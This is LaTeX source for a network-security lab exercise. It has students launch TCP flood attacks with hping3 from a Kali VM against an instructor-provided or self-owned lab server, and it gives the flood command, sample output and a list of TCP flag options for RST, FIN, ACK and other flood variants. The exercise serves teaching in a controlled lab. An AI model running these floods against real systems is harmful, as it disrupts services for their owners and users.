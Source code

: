 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
Receiving systems, and those en route to the service, should be checked for resources like CPU load, bandwidth, logging. Logging can also overload the logging infrastructure, so take care when configuring this in your own networks.


\chapter{\faInfoCircle\ TCP other flooding 15min}


{\bf Objective:}\\
Start a webserver attack using TCP flooding tool hping3.

{\bf Purpose:}\\
Run various other common attacks

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

\begin{alltt}
hping3 --flood -p 80 -R 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}


{\bf Hints:}\\
Common attacks use the SYN, as shown in previous exercise, but other popular
TCP attacks are RST, PUSH, URG, FIN, ACK attacks - setting one or more flags in the packets.

\begin{alltt}
-L  --setack     set TCP ack
-F  --fin        set FIN flag
-S  --syn        set SYN flag
-R  --rst        set RST flag
-P  --push       set PUSH flag
-A  --ack        set ACK flag
-U  --urg        set URG flag
-X  --xmas       set X unused flag (0x40)
-Y  --ymas       set Y unused flag (0x80)
\end{alltt}
\end{document}
